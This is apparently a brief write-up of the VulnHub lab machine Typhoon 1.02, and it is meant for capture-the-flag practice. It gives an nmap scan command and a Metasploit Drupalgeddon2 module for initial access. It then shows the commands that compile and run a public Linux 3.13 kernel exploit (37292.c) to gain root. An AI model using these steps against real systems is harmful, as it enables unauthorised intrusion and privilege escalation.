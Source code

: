 
# Typhoon: 1.02 Walkthrough

**VulnHub Link:** [Typhoon: 1.02](https://www.vulnhub.com/entry/typhoon-102,267/)
**Difficulty:** Easy
**Release Date:** 31 Oct 2018


## 1.Reconnaissance
nmap -A -O -T4 -P -sV 192.168.100.121


## 2.Enumeration 
in msfconsole --> search drupal 

>>> use unix/webapp/drupal_drupalgeddon2 -- settings

>>> run

>>> Linux Kernel 3.13 vulnerable and 37292.c file installed in it


## 3.Explotation
>>> gcc 37292.c -o exploit ; ./exploit ---> gaining root access and captured user & root flags
